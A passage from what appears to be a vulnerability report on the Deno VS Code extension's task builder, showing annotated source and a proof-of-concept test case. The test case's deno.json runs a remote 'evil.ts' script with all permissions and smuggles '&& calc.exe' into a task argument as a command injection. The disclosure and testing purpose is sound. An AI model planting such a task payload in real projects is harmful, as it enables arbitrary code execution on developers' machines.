         // client\src\tasks.ts - buildDenoConfigTask
        export function buildDenoConfigTask(
          scope: vscode.WorkspaceFolder,
          process: string,
          name: string,     // <-- Potentially from deno.json task name
          command: string | undefined, // <-- Potentially from deno.json task command/detail
          sourceUri?: vscode.Uri,
        ): vscode.Task {
          const args = [];
          if (sourceUri && vscode.Uri.joinPath(sourceUri, "..").toString() != scope.uri.toString()) {
            const configPath = path.relative(scope.uri.fsPath, sourceUri.fsPath);
            args.push("-c", configPath);
          }
          args.push(name); // <-- Potentially from deno.json task name
          const task = new vscode.Task(
            {
              type: TASK_TYPE,
              name: name,    // <-- Potentially from deno.json task name
              command: "task", // Fixed "task" command, but args are still influenced
              args,         // <-- args include potentially unsanitized name
              sourceUri,
            },
            scope,
            name,
            TASK_SOURCE,
            new vscode.ProcessExecution(process, ["task", ...args]), // <-- ProcessExecution with potentially vulnerable args
            ["$deno"],
          );
          task.detail = `$ ${command}`; // Detail string, potentially unsanitized command
          return task;
        }
        ```

    - Security test case:
        1. Create a new workspace folder and open it in VS Code.
        2. Create a file named `deno.json` at the root of the workspace with the following content:
        ```json
        {
          "tasks": {
            "MaliciousTask": {
              "command": "run",
              "args": [
                "-A",
                "https://gist.githubusercontent.com/security-expert-64/4e9344969844ad918441044b3655137b/raw/evil.ts && calc.exe"
              ]
            }
          }
        }
        ```
           *(Note: Replace `calc.exe` with the appropriate calculator command for your operating system if necessary, e.g., `open -a Calculator.app` on macOS, `gnome-calculator` on Linux. Also, ensure `evil.ts` URL is accessible or replace with a local harmless script for testing. Gist URL points to a harmless typescript file for demonstration.)*
        3. Ensure the Deno extension is enabled for this workspace.
        4. Open the "Deno Tasks" explorer in VS Code (View -> Open View... -> Deno Tasks).
        5. You should see a task named "MaliciousTask" listed under your workspace and `deno.json`.
        6. Click the "Run Task" icon (wrench icon) next to "MaliciousTask".
        7. **Expected Outcome (Vulnerable):** Observe that the calculator application (`calc.exe` or equivalent) is launched. This indicates that the command injection was successful, and arbitrary commands could be executed.